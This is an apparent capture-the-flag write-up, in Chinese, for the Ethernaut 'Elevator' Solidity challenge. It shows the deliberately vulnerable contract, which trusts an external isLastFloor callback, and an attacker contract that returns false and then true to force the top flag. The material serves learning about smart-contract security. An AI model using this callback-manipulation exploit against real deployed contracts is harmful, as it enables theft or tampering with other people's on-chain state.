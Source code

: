 # 11. Elevator
### 原题
```
电梯不会让你达到大楼顶部, 对吧?
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
### 分析
意思是我想到顶楼，但是电梯不让到顶楼。刚开始，整个懵逼。后来分析了下代码，才明白这个意思。到了顶楼，然后能把top值改为true。\
进入条件是“!building.isLastFloor(_floor)”，只有不是顶楼才会修改top值。\
如果到了顶楼，“building.isLastFloor(_floor) == true”,是没法修改top为true的。这个整个逻辑是互锁的。需要我们想策略使得top等于true。\
如果building.isLastFloor(_floor)第一次调用是false，然后第二次调用是true，那就正好可以破解了。isLastFloor方法里需要做点技巧了。那就需要一个变量来控制输出。能够达到每次返回的结果和前一次结果相反。\
有以下方案：\
使用具名返回值，可以不需要return， 这个返回值等于一个状态变量值，可以在设置返回值后，再把这个状态变量改成相反的值，等待下一次函数的调用再使用

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
  function goTo(uint256 _floor) external ;
}

contract ElevatorAttack {

    bool public rs;
    IElevator public elevator;

    constructor(address _elevator) {
      elevator = IElevator(_elevator);
    }

    function goTo(uint256 _floor) public {
      elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool r) {

      r = rs;
      //r设置为false，接着把rs修改为true，等待下一次执行的时候，r = true
      rs = !rs;
    }

}
```
![alt text](image-3.png)
